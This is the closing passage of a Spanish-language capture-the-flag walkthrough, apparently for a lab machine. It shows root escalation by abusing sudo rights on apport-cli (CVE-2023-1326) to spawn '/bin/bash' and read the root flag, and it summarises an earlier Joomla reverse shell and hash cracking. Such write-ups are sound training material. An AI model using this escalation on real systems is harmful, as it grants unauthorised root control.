 ```
cat user.txt
```  

---

## 🔝 Escalada a Root  

### 16. Verificar permisos sudo:  

```
sudo -l
```  

**Resultado:**  
```
(ALL : ALL) ALL -> /usr/bin/apport-cli
```  

### 17. Exploitar `apport-cli` (CVE-2023-1326):  

```
sudo apport-cli
```  

Dentro de `apport-cli`, escribir `v` para abrir el editor, luego escribir:  

```
!/bin/bash
```  

✅ **Acceso como root**

```
cat /root/root.txt
```  

---

## 📝 Conclusión  

- ✅ Acceso inicial mediante vulnerabilidad de Joomla y reverse shell desde plantilla Cassiopeia.  
- ✅ Escalada a usuario a través de credenciales en base de datos y crackeo de hashes.  
- ✅ Escalada a root mediante abuso de `apport-cli` vulnerable (CVE-2023-1326).  

---

## 🚩 Flags  

- **User:** ✅  
- **Root:** ✅  

---

## 💡 Comandos Útiles  
